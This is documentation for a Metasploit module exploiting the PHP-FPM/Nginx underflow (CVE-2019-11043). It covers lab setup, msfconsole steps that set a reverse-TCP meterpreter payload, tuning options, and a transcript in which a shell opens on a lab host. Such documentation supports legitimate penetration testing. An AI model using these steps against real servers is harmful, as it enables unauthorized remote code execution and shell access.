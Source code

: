 This module exploits an underflow vulnerability in versions 7.1.x below 7.1.33,
7.2.x below 7.2.24 and 7.3.x below 7.3.11 of PHP-FPM on Nginx. Only servers
with certains Nginx + PHP-FPM configurations are exploitable. This is a port of
the original neex's exploit code (see refs.). First, it detects the correct
parameters (Query String Length and custom header length) needed to trigger
code execution. This step determines if the target is actually vulnerable
(Check method). Then, the exploit sets a series of PHP INI directives to create
a file (`/tmp/a`) locally on the target, which enables code execution through a
query string parameter (`?a=<cmd>`). This is used to execute normal payload
stagers. Finally, this module does some cleanup by killing local PHP-FPM
workers (those are spawned automatically once killed) and removing the created
local file (`/tmp/a`).

## Vulnerable Application
- Install Nginx on Linux (`apt-get install nginx`)
- get the vulnerable PHP:

```
git clone https://github.com/php/php-src
# checkout the fix
git -C php-src checkout ab061f95ca966731b1c84cf5b7b20155c0a1c06a
# checkout the commit previous to the fix
git -C php-src checkout HEAD~1
```

- make sure the default Nginx configuration contains these entries and no
  script existence checks (like `try_files`):

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

See original PoC for details: https://github.com/neex/phuip-fpizdam

An easiest way to setup a vulnerable instance is to use the docker
configuration provided by the author
(https://github.com/neex/phuip-fpizdam/tree/master/reproducer)

## Verification Steps

  Preparing the target:

  1. `git clone https://github.com/neex/phuip-fpizdam`
  2. `cd phuip-fpizdam/reproducer/`
  3. `docker build -t reproduce-cve-2019-11043 .`
  4. `docker run --rm -p 192.168.6.6:8080:80 --name reproduce-cve-2019-11043 reproduce-cve-2019-11043`

  Running the exploit:

  1. `./msfconsole`
  2. `use exploit/multi/http/php_fpm_rce`
  4. `set RHOSTS 192.168.6.6`
  5. `set RPORT 8080`
  4. `set TARGETURI /script.php`
  6. `set PAYLOAD php/meterpreter/reverse_tcp`
  7. `set LHOST 192.168.6.6`
  8. `run`

## Options

### TARGETURI
   Path to a PHP page (`/index.php` by default). This must be a valid page.

## Advanced Options

  **MinQSL**
  Minimum query string length (QSL). The QSL detection engine will iterate
  starting from this value (1500 by default). This option is required.

  **MaxQSL**
  Maximum query string length (QSL). The QSL detection engine will iterate
  until this value is reached (1950 by default). This option is required.

  **QSLHint**
  Query string length hint. This value will be used as a QSL candidate. Note
  that setting this value skips the QSL detection.

  **QSLDetectStep**
  Query string length detect step. The QSL detection engine will iterate with
  this step value (5 by default). This option is required.

  **MaxQSLCandidates**
  Maximum query string length candidates. When the number of QSL candidates
  found during the QSL detection phase is greater than this value (10 by
  default), this indicates that something went wrong and we were not able to
  detect the correct values. This option is required.

  **MaxQSLDetectDelta**
  Maximum query string length detection delta. This value is the maximum
  distance between the candidate and the extended values (10 by default). For
  example, with a value of 20 and QSLDetectStep set to 5, candidate [1700] will
  be extended to [1680, 1685, 1690, 1695, 1700]. This option is required.

  **MaxCustomHeaderLength**
  Maximum custom header length. This value is the maximum length that will be
  used for the custom header during the parameters detection (256 by default).
  This option is required.

  **CustomHeaderLengthHint**
  Custom header length hint. This value will be used as the custom header
  length. Note that setting this value skips the custom header length
  detection.

  **DetectMethod**
  Method that will be used to detect if the target is vulnerable. Available
  methods:

  1. `session.auto_start`: this method consist in setting the
  `session.auto_start` PHP option to 1. If the response contains `PHPSESSID=`
  set-cookie value, this means the PHP option has been correctly set and the
  target is vulnerable.
  2. `output_handler.md5`: this method consist in setting the `output_handler`
  PHP option to `md5`. If the response is a md5 hash (16 characters), this
  means the PHP option has been correctly set and the target is vulnerable.

  **OperationMaxRetries**
  Maximum of operation retries. Each operation will be repeated at most
  `OperationMaxRetries` times.

## Scenarios

### Ubuntu 18.04 + nginx 1.14.0 + PHP 7.1.33dev (fpm-fcgi) (built: Feb 14 2020 16:48:15)

```
msf > use exploit/multi/http/php_fpm_rce
msf exploit(multi/http/php_fpm_rce) > set RHOSTS 192.168.6.6
RHOSTS => 192.168.6.6
msf exploit(multi/http/php_fpm_rce) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/php_fpm_rce) > set TARGETURI /script.php
TARGETURI => /script.php
msf exploit(multi/http/php_fpm_rce) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(multi/http/php_fpm_rce) > set LHOST 192.168.6.6
LHOST => 192.168.6.6
msf exploit(multi/http/php_fpm_rce) > run

[*] Started reverse TCP handler on 192.168.6.6:4444
[*] Sending baseline query...
[*] Detecting QSL...
[+] The target is probably vulnerable. Possible QSLs: [1765]
[*] Doing sanity check...
[*] Detecting attack parameters...
[+] Parameters found: QSL=1760, customh_length=69
[+] Target is vulnerable!
[*] Performing attack using php.ini settings...
[+] Success! Was able to execute a command by appending 'which+which'
[*] Trying to cleanup /tmp/a...
[+] Cleanup done!
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.6.6
[*] Meterpreter session 1 opened (192.168.6.6:4444 -> 192.168.6.6:59177) at 2020-02-14 12:03:45 -0600
[+] Session created
[*] Remove /tmp/a and kill workers...
[+] Done!

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 832efebeac57
OS          : Linux 832efebeac57 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
